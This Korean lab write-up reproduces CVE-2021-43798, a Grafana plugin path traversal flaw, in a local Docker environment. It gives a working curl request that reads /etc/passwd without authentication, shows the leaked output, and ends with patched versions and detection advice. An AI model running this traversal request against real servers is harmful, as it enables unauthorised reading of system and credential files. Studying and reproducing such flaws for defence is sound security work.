


# CVE-2021-43798

**Contributors**

-   [김민영(@cloxerr)](https://github.com/cloxerr)

## 요약

CVE-2021-43798은 Grafana의 플러그인 경로에서 발생하는 Path Traversal 취약점입니다.  
취약한 버전에서는 `/public/plugins/<plugin-id>/` 경로에 `../`를 포함한 요청을 보내 서버 내부 파일에 접근할 수 있습니다.

Docker를 이용해 Grafana 8.3.0 환경을 구성하고, `/etc/passwd` 파일을 읽는 방식으로 취약점이 재현되는 것을 확인했습니다.

## 참고 자료

- <https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-43798>

## 환경 설정

아래 명령어를 사용해 취약한 Grafana 8.3.0 환경을 구성합니다.

```bash
docker compose up -d
```

브라우저에서 아래 주소로 접속하면 Grafana 로그인 화면을 확인할 수 있습니다.

```text
http://127.0.0.1:3000
```


## 취약 조건

이 취약점은 취약한 Grafana 버전에서 플러그인 정적 파일 경로에 접근할 수 있을 때 재현됩니다.

- Grafana 8.3.0과 같은 취약 버전이 실행 중이어야 합니다.
- Grafana 웹 서비스에 접근할 수 있어야 합니다.
- 존재하는 플러그인 ID를 사용해야 합니다.
- 요청 경로에 포함된 `../`가 서버에 그대로 전달되어야 합니다.

## 취약점 재현

Grafana는 플러그인 파일을 제공하기 위해 `/public/plugins/<plugin-id>/` 경로를 사용합니다.

취약한 버전에서는 이 경로에 `../`를 포함한 요청을 보낼 경우, 플러그인 디렉터리 밖의 파일에 접근할 수 있습니다.

아래 요청은 `alertlist` 플러그인 경로를 이용해 `/etc/passwd` 파일을 읽는 요청입니다.

```bash
curl --path-as-is "http://127.0.0.1:3000/public/plugins/alertlist/../../../../../../../../etc/passwd"
```

`--path-as-is` 옵션은 curl이 `../` 경로를 정리하지 않고 그대로 서버에 전달하도록 사용했습니다.



결과에서 `/etc/passwd` 파일 내용이 출력되는 것을 확인할 수 있습니다.

```text
root:x:0:0:root:/root:/bin/ash
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```

## POC

PoC 코드는 `poc.py`로 작성했습니다.

Python의 `requests` 모듈을 사용하면 `../` 경로가 정리될 수 있어, socket을 이용해 HTTP 요청을 직접 전송했습니다.

```bash
python3 poc.py
```



실행 결과 HTTP 200 응답과 함께 `/etc/passwd` 파일 내용이 출력됩니다.

## 취약점 분석

정상적인 요청은 Grafana 플러그인의 정적 파일을 가져오기 위한 요청입니다.

```text
/public/plugins/alertlist/
```

하지만 취약한 버전에서는 해당 경로 뒤에 `../../`를 붙였을 때 상위 디렉터리로 이동하는 것을 제대로 차단하지 못합니다.

```text
/public/plugins/alertlist/../../../../../../../../etc/passwd
```

이로 인해 공격자는 인증 없이 서버 내부 파일을 읽을 수 있습니다.

## 환경 종료

작업이 끝난 후 다음 명령어로 컨테이너를 종료합니다.

```bash
docker compose down -v
```

## 대응 방안

Grafana를 패치된 버전으로 업데이트해야 합니다.

- 8.0.x: 8.0.7 이상
- 8.1.x: 8.1.8 이상
- 8.2.x: 8.2.7 이상
- 8.3.x: 8.3.1 이상

또한 Grafana가 외부에 직접 노출되지 않도록 접근 제어를 적용하고, `/public/plugins/` 경로에 `../`가 포함된 비정상 요청이 발생하는지 로그를 확인해야 합니다.